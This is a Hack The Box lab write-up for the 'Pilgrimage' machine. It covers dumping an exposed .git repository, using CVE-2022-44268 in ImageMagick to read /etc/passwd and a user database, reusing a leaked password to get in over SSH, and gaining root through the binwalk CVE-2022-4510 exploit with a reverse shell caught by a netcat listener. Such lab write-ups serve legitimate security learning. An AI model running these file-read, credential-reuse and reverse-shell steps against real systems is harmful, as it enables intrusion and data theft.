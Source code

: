 ```yaml
---
type: box
finished: "false"
writeup: "false"
---
```

![pilgrimage](images/Pilgrimage.png)
# Enumeration
with the nmap command `nmap -p- -sV -sC 10.10.11.219` we got this result:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20be60d295f628c1b7e9e81706f168f3 (RSA)
|   256 0eb6a6a8c99b4173746e70180d5fe0af (ECDSA)
|_  256 d14e293c708669b4d72cc80b486e9804 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
So we know there's a SSH server, and a http server running nginx 1.18.0.
Going to the website we come to this page:
![website](images/website.png)

We have the option to log in, register or upload an image where it shows the shrunk version of that image. If we make an account and then log in we get a "Dashboard" tab that allows us to see all of the previous images that we have uploaded to the website.

# Git-Dumping
Here I was stuck for a while trying a bunch of stuff. Which is when I went back to enumeration. **Always go back to enumeration if you get stuck, don't tunnel vision because maybe you're missing something.** In my case I was missing an open .git repo on the 80 server. Since we didn't have the IP redirect link in our /etc/hosts nmap gave us this output `http-title: Did not follow redirect to http://pilgrimage.htb/` However if we run `nmap -p 80 -sV -sC 10.10.11.219` again, however this time only on port 80 while having the redirect in out /etc/hosts we get this output:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-title: Pilgrimage - Shrink Your Images
```

Now we know for sure there is a /.git/ folder on the server. Now we can use a tool like [Git dumper](https://github.com/arthaud/git-dumper)to extract all of the information from the git folder on to our own machine and take a look at the source code.

At first I thought there was a problem with the code, however everything seems sanitized. One thing we can keep in note for later though is that the databased is stored in `/var/db/pilgrimage` as we see in the code `$db = new PDO('sqlite:/var/db/pilgrimate');`.
![login](images/login.png)
But what is this `/var/ww/pilgimage.htb/magik`? Taking a close look at it by going into the git folder and going `./magik -version` we get this output:

```
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

Googling `ImageMagick 7.1.0-49` I came across [a vulnerability with ImageMagick 7.1.0](https://www.metabaseq.com/imagemagick-zero-days/) This vulnerability was is based upon the -resize command within Magick, exactly what we are looking for. If we insert arbitrary code into the image, give it to Magick and then redownload it, we will get the output into the resized image. Let's try it first by making it print out `/etc/password` of the server with this script: **[CVE-2022-44268](https://github.com/voidz0r/CVE-2022-44268)**.

# ARBITRARY REMOTE LEAK with [CVE-2022-44268](https://github.com/voidz0r/CVE-2022-44268)

When we did `cargo run "/etc/passwd"` on the file we got an image with code injected into it. When we upload it to the server and download the "shrunken" version of it we can run `identify -verbose {image}` to get the outputting hex values of our input. Inputting it to something like [CyberChef](https://gchq.github.io/CyberChef/) and converting it from hex to ascii we get this output:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Just for the fun of it I tried to also get the value of `/etc/shadow` however that did not get us any result because Magick is not allowed to read `/etc/shawdow`. What we can try is to **get the content of the `/var/db/pilgrimage` database as we saw from earlier.** Doing the same thing as earlier we get a bunch of hex values. Plugging that into cyberchef allows us to see the contents of it.

In a bunch of null values we get the sql code:
![table](images/table.png)

And *much* lower down we see this:
![usernames](images/usernames.png)

Our own account is which is the *creatively* named `asdfasd` with the password `asdf`.
More importantly we see the user `emily` from before with the password `abigchonkyboi123`. Classy.

With the knowledge that people use the same password everywhere, we can try to ssh into the machine with the username emily and password `abigchonkyboi123`.
![ssh](images/ssh.png)
**bingo**
Now we cat out the content of the user.txt.
# Privilege escalation with [CVE-2022-4510](https://www.exploit-db.com/exploits/51249)

Looking at the home directory we find some interesting files. Most notably pspy32 and binwalk_exploit.png. Looking at the pspy32 output we see that root is running something called `/sbin/malwarescan.sh`. Looking closer at that we see the following code:

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

Here we see code being run every time something is changed in the `/var/www/pilgrimage.htb/shrunk/` directory with the help of the `inotifywait` command. We also see `/usr/local/bin/binwalk -e` being run on every file every time a change is done in that directory. Let's take a look at the binwalk version on this machine.

```
emily@pilgrimage:~$ binwalk -h                                                          

Binwalk v2.3.2                                                                          Craig Heffner, ReFirmLabs                                                               https://github.com/ReFirmLabs/binwalk     
```

If we look up ```binwalk v2.3.2``` we find a remote code execution vulnerbility is in binwalk version 2.3.2. Luckily the [script from exploit database](https://www.exploit-db.com/exploits/51249) is already downloaded on the machine in the `/tmp/` folder.

So all we have to do is to write is `python3 /tmp/51249.py catt.png {YOUR_IP} {YOUR_PORT}` and then start a netcat listener on that port. You will then get an image called `binwalk_exploit.png` in your folder and all you have to do now is copy it over with `cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/` and boom.

![root](images/root.png)

# We're in (conclusion)
This is definitely the hardest box easy box I've done on hack the box. I was stuck on the first step for a long while, when I randomly decided to run the nmap scan again and saw the /.git/ directory. Everything was pretty good from there though. This is probably the best box I've done on HTB to date. I loved getting the user flag immensely. The root flag was a bit tricky, but learning to read the pspy32 output helped a ton.